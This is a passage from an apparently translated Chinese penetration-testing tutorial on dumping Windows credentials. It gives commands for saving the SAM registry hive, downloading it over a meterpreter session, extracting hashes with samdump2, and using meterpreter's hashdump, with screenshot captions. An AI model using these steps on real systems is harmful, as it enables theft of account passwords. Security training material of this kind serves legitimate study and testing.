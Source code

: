 reg save hklm\sam c:\sam

如果操作成功，您应该会收到类似以下截图中突出显示的信息：

![图 7.15 – 提取 SAM](img/B17389_07_015.jpg)

](Images/B17389_07_015.jpg)

图 7.15 – 提取 SAM

我们现在可以将 SAM 文件从文件系统根目录下载到我们的 Kali 虚拟机。这可以通过 meterpreter 自动完成，运行以下命令：

download sam

如下截图所示，SAM 文件应该已下载到我们 Kali 主目录中：

![图 7.16 – 下载 SAM 文件](img/B17389_07_018.jpg)

](Images/B17389_07_016.jpg)

图 7.16 – 下载 SAM 文件

我们现在可以在 Kali Linux 上使用 SamDump2 工具从文件中提取哈希值。可以通过在 Kali 上运行以下命令来完成此操作：

samdump2 system sam

这将从 SAM 文件中提取哈希值，我们现在可以破解这些哈希以获取明文密码。

此过程也可以通过使用 `hashdump` meterpreter 命令来自动化，命令如下：

hashdump

如果成功，输出应该会显示系统上所有用户帐户的哈希值，如以下截图所示：

![图 7.17 – Hashdump](img/B17389_07_017.jpg)
